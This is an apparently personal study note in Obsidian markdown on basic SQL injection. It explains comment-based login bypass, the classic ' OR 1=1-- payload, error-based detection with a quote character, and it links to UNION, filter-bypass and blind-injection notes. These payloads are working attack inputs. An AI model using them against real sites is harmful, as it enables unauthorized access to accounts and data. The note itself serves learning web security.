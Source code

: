 - [[#Title|Title]]
- [[#Body|Body]]
- [[#injection|injection]]
- [[#basic sqli|basic sqli]]
- [[#basic sqli#The Union operator|The Union operator]]
- [[#basic sqli#Bypass the filter|Bypass the filter]]
- [[#basic sqli#References|References]]

### Title
Tags: #sqli
Related to: 
See also: [[SQLi - advance exploits <Blind-sqli>]]
Previous:

### Body
questions: [[2024-06-05]]
**Summary**: Here i wrote about the basics of sqli and basic over view of everything.

**Notes:**
### injection

`SELECT * FROM users WHERE username = ‘marcus’ and password = ‘secret’`
this query happens in a login
to by pass this use this
```
SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’
=> SELECT * FROM users WHERE username = ‘admin’ 
```

=="--" this means comment in sql ==


Suppose that the attacker does not know the administrator’s username. In
most applications, the first account in the database is an administrative user,
because this account normally is created manually and then is used to generate

all other accounts via the application. Furthermore, if the query returns the
details for more than one user, most applications will simply process the first
user whose details are returned. An attacker can often exploit this behavior to
log in as the first user in the database by supplying the username:
```
‘ OR 1=1--
```

This causes the application to perform the query:
```
SELECT * FROM users WHERE username = ‘’ OR 1=1--’ AND password = ‘foo’
```
Because of the comment symbol, this is equivalent to:
```
SELECT * FROM users WHERE username = ‘’ OR 1=1
```

## basic sqli

```
SELECT author,title,year FROM books WHERE publisher = ‘Wiley’ and
published=1
```

to find all the book published by wiley

```
SELECT author,title,year FROM books WHERE publisher = ‘O’Reilly’ and
published=1
```
this will come with a error if the website is vulnerable to the #sqli.

error should look like this:
```
Incorrect syntax near ‘Reilly’.
Server: Msg 105, Level 15, State 1, Line 1
Unclosed quotation mark before the character string ‘
```

the following payload would work on this
```
Wiley’ OR 1=1--
```

This causes the application to perform the following query:
```
SELECT author,title,year FROM books WHERE publisher = ‘Wiley’ OR
1=1--’ and published=1
```

[[SQL injection - Testing basic vuln|Test for SQLi vulnerbility]]

You can inject using these sql commands.
- Insert
- Update
- Select
- Union

### The Union operator
The union operator adds to table if they have similiar columns and content. [[Sql - Union clause|HERE]] is a reference for the basic of union and [[Union based sqli|HERE]] is more about union based sqli.

also learn [[SQL injection - Extracting data|how to extract]] data from a vulnerable website

### Bypass the filter
sometimes there are filter that will sanitize certein keywords. We can still bypass these filters. [[Bypass filters|HERE]] is some basic techniques to bypass them.


### Blind SQL
sometimes there is no issue seen on the target using sqli but it is still vulnerable. Here we have to techniques to get them. This is the [[SQLi - advance exploits <Blind-sqli> |Link.]]

### References
- [[SQL injection - Extracting data]]
- [[SQL injection - Testing basic vuln]]
- [[Sql - Union clause]]
- [[Need to read this - sqli]]
- [[watch this - sqli-union-based]]



